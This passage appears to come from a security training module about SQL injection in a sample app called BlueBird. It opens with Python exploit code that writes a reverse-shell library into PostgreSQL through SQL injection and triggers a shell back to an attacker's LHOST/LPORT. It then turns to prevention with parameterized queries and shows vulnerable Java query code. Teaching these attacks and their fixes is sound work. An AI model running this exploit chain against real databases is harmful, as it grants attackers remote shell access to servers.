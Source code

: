 ```python

# Upload pg_rev_shell.so to large object
for pageno in range(math.ceil(len(raw)/2048)):
    page = raw[pageno*2048:pageno*2048+2048]
    print(f"[*] Uploading Page: {pageno}, Length: {len(page)}")
    sqli(f"INSERT INTO pg_largeobject (loid, pageno, data) VALUES ({loid}, {pageno}, decode('{page.hex()}','hex'));")

# Write large object to file and run reverse shell
query  = f"SELECT lo_export({loid}, '/tmp/pg_rev_shell.so');"
query += f"SELECT lo_unlink({loid});"
query += "DROP FUNCTION IF EXISTS rev_shell;"
query += "CREATE FUNCTION rev_shell(text, integer) RETURNS integer AS '/tmp/pg_rev_shell', 'rev_shell' LANGUAGE C STRICT;"
query += f"SELECT rev_shell('{LHOST}', {LPORT});"
print(f"[*] Writing pg_rev_shell.so to disk and triggering reverse shell (LHOST: {LHOST}, LPORT: {LPORT})")
sqli(query)

```


# Preventing SQL Injection Vulnerabilities

## Introduction

Throughout this module we identified many `SQL injection` vulnerabilities in `BlueBird` which is great for us as attackers, but means work for us as defenders. Let's take a look at what we can do to fix these vulnerabilities and prevent new ones in the future.

## Parameterized Queries

The best way to prevent `SQL injection` is to use `parameterized queries`. This requires developers to write the SQL query with placeholders for variables that are later passed as arguments to the database so that it can easily distinguish between the code and avoid injection vulnerabilities.

The exact syntax for parameterized queries depends on the `database`, `programming language` and `library` you use. In the case of `BlueBird`, we are using `JdbcTemplate` with `PostgreSQL`. Let's take the `SQL injection` vulnerability in `/find-user` as an example. This is what the vulnerable code looks like as is:

```java
// IndexController.java (Lines 50-76)

@GetMapping("/find-user")
public String findUser(@RequestParam String u, Model model, HttpServletResponse response) throws IOException {
<SNIP>
        String sql = "SELECT * FROM users WHERE username LIKE '%" + u + "%'";
        List<User> users = jdbcTemplate.query(sql, new BeanPropertyRowMapper(User.class));
<SNIP>
}

```
